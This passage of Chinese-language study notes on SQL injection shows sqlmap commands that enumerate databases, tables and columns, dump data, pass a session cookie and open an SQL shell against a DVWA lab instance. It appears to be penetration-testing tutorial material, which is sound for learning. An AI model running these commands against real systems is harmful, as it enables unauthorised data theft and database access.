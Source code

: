 4.基于SQL盲注

###

### 3.SQLmap自动注入

1.sqlmap用法

- 查看sqlmap的帮助

```shell
$ sqlmap -h
$ sqlmap -hh   # 获得详细信息
```

```shell
$ sqlmap -u "http://xxxxxx" --batch
$ sqlmap -u "http://xxxxxx" --batch --dbs   # 获取所有数据库信息
$ sqlmap -u "http://xxxxxx" --batch -D "库名" --tables   # 获取某个库下面的表
$ sqlmap -u "http://xxxxxx" --batch -D "库名" -T "表名" --columns     # 获取某个库下某张表的字段
$ sqlmap -u "http://xxxxxx" --batch -D "库名" -T "表名" --columns --dump-all    # 获取数据
```

sqlmap利用Cookie参数：

```shell
$ sqlmap -u "http://10.61.8.209/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --batch  --cookie="PHPSESSID=bsi7u0bdk4h8tmi2o9udj8s280;security=low"
```

2.提权操作

与数据库交互： --sql-shell

```shell
$ sqlmap -u "http://10.61.8.209/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --batch --cookie="PHPSESSID=bsi7u0bdk4h8tmi2o9udj8s280;security=low" --sql-shell
```

